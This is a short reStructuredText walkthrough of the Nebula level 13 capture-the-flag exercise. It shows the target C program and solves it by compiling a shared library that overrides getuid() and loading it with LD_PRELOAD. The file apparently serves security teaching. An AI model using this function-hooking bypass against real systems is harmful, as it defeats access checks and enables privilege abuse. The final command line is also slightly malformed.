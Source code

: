 .. _nebula13:

.. role:: bash(code)
	  :language: bash

.. role:: c(code)
	  :language: c
	       
Nebula level 13
===============

Basic information
-----------------

**Home Page:** https://exploit-exercises.com/nebula/level00/

**Source Code**

.. code-block:: c

		#include <stdlib.h>
		#include <unistd.h>
		#include <stdio.h>
		#include <sys/types.h>
		#include <string.h>

		#define FAKEUID 1000

		int main(int argc, char **argv, char **envp)
		{
		    int c;
		    char token[256];

		    if(getuid() != FAKEUID) {
		        printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
			printf("The system administrators will be notified of this violation\n");
			exit(EXIT_FAILURE);
		    }

		    // snip, sorry :)

		    printf("your token is %s\n", token);

		}

To solve this level we will use LD_PRELOAD

First create a C file

.. code-block:: c

		int getuid() {
		    return 1000;
		}

Then compile it as a shared library

:bash:`gcc -shared -fPIC -o /home/level13/fake.so /home/level13/fake.c`

Load the created library on LD_PRELOAD
      
:bash:`cp /home/flag13/flag13 /home/level13/flag13`

Finally run

:bash:`export LD_PRELOAD=/home/level13/fake.so /home/level13/flag13`
